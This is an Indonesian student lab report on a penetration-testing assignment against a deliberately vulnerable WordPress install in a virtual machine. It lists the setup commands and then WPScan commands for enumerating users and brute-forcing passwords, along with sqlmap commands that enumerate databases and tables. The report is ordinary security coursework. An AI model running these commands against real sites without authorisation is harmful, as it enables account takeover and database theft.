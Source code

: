 # TUGAS 2 PKSJ Uji Penetrasi

## A. Pendahuluan

#### Penjelasan Tugas

* Install Wordpress pada sebuah virtual OS
* Install plugin yang vulnerable terhadap SQL injection: Video Player 1.5.16, LeagueManager 3.9.11, dll.
* Install/gunakan tool untuk uji SQL injection pada Wordpress: WPScan, sqlmap, dll.


**Anggota Kelompok**

| NRP         | Nama                 |
|-------------|----------------------|
| 5113100006  | Aldhiaz Fathra Daiva |
| 5113100119  | Rezky Budi Prasetyo  |
| 5113100174  | Armirara Refa        |


## B. Dasar Teori

**1. OS yang digunakan**

* **Kali Linux** adalah salah satu distribusi Linux tingkat lanjut untuk uji penetrasi dan audit keamanan, pembangunan kembali BackTrack Linux secara sempurna,  mengikuti sepenuhnya kepada standar pengembangan Debian. ([sumber](http://id.docs.kali.org/introduction-id/apa-itu-kali-linux))

* **Ubuntu Server** adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS. ([sumber](http://www.candra.web.id/mengenal-ubuntu-server/))


**2. WordPress dan plugin yang diinstall**

* **WordPress** adalah *content management system* (CMS) *open source* berbasis PHP dan MySQL yang diinstall pada web server, yaitu sebagai bagian dari Internet hosting service (WordPress.com) atau sebagai host nya itu sendiri (WordPress.org). Pada WordPress.org, komputer lokal dikonfigurasikan untuk berperan sebagai web server hosting WordPress untuk tujuan uji coba atau belajar. ([sumber](https://en.m.wikipedia.org/wiki/WordPress))

* **Video Player 1.5.16** adalah plugin video pada WordPress yang memungkinkan pengguna untuk menambahkan video pada websitenya. ([sumber](https://wordpress.org/plugins/player/))

* **LeagueManager 3.9.1.1** adalah plugin WordPress untuk mengatur dan menampilkan liga olahraga pada halaman blog. ([sumber](https://wordpress.org/plugins/leaguemanager/))

* **CP Reservation Calendar 1.1.6** adalah plugin pemesanan tanggal kalender yang memungkinkan memilih tanggal - yaitu untuk *check-in* dan *check-out* - untuk reservasi. ([sumber](https://wordpress.org/plugins/cp-reservation-calendar/))


**3. Tools yang digunakan**

* **WPScan** adalah *tools* yang ditulis dengan ruby untuk meninjau celah keamanan pada WordPress, mampu mendeteksi celah keamanan yang umum juga mendaftar semua plugin yang digunakan pada WordPress. ([sumber](http://kali4hackers.blogspot.com/2013/05/wpscan-in-kali-linux-wpscan-is.html?m=1))

* **Sqlmap** adalah *tools open source* untuk uji coba penetrasi yang mengotomasi proses mendeteksi dan mengeksploitasi kelemahan pada SQL injection dan mengambil alih database server. ([sumber](http://www.kalitutorials.net/2014/03/hacking-website-with-sqlmap-in-kali.html?m=1))


## C. Penjelasan Instalasi
**1. Install Apache**
pertama kali kami melakukan penginstalan apache pada ubuntu server dengan command dibawah
```
$ sudo apt-get install apache2 apache2-utils 
```
Selanjutnya untuk menjalan kan apache menggunakan command berikut ini
```
$ sudo systemctl enable apache2
$ sudo systemctl start apache2
```
Selanjut buka pada browser client(kali linux) dan masukan ip ubuntu server untuk melihat apache yang sudah berjalan
![gambar1](Screenshot/Apache.png)

**2. Install Mysql**
Selanjutnya kami melakukan penginstalan mysql dengan command berikut ini
```
$ sudo apt-get install mysql-client mysql-server
```
Selanjutnya menjalan commend ini
```
$ sudo mysql_secure_installation
```

**3. Install PHP**



## D. Uji Penetrasi
**1. Uji penetrasi dengan wpscan**
Untuk uji penestasi pertama kita melakukan menggunakan wp scan untuk mengecek plugin apa saja yang digunakan pada ubuntuk server uji penetrasi dilakukan pada kali linux
```
wpscan --url localhost/wordpress
```
![gambar1](Screenshot/plugin.jpg)

Selanjutnya mengecek username menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --enumerate u
```
![gambar1](Screenshot/User.jpg)
Selanjutnya mengecek Password menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --wordlist ~/passlist.txt --thread 10
```
![gambar1](Screenshot/Pass.jpg)

**2. Uji penetrasi dengan sqlmap**
Selanjutnya kami mencoba uji penetrasi menggunakan sqlmap pada plugin leaguemanager
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql
```
dari command ini kita mendapatkan OS, Webserver dan versi dbms yang diguankan
![gambar1](Screenshot/Uji1.1.jpg)
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql --dbs
```
dari command ini kita mendapat database yang terdapat pada target penetrasi
![gambar1](Screenshot/Uji1.2.jpg)
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql -D wordpress --tables
```
dari command ini kita mendapatkan tabel apa saja yang terdapat pada wordpress
![gambar1](Screenshot/Uji1.3.jpg)

## E. Kesimpulan dan Saran
